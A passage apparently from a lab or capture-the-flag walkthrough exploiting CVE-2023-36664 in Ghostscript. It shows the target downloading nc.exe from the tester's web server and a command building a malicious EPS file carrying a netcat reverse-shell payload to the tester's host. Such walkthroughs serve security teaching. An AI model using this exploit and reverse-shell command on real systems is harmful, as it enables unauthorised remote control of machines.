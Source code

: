 ![](/assets/attachments/Pasted%20image%2020240611160152.png)

After about a minute, the payload executed:
```shell
$ python3 -m http.server 8090                                                                                                                
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/) ...
10.129.166.255 - - [11/Jun/2024 16:02:24] "GET /nc.exe HTTP/1.1" 200 -
```

The tester generated the second payload, and attached to a reply on the target machine.
```shell
$ python3 ~/Workspace/CVE-2023-36664-Ghostscript-command-injection/CVE_2023_36664_exploit.py --generate --payload "nc.exe 10.10.14.108 9090 -e cmd.exe" --filename shell2b --extension eps
```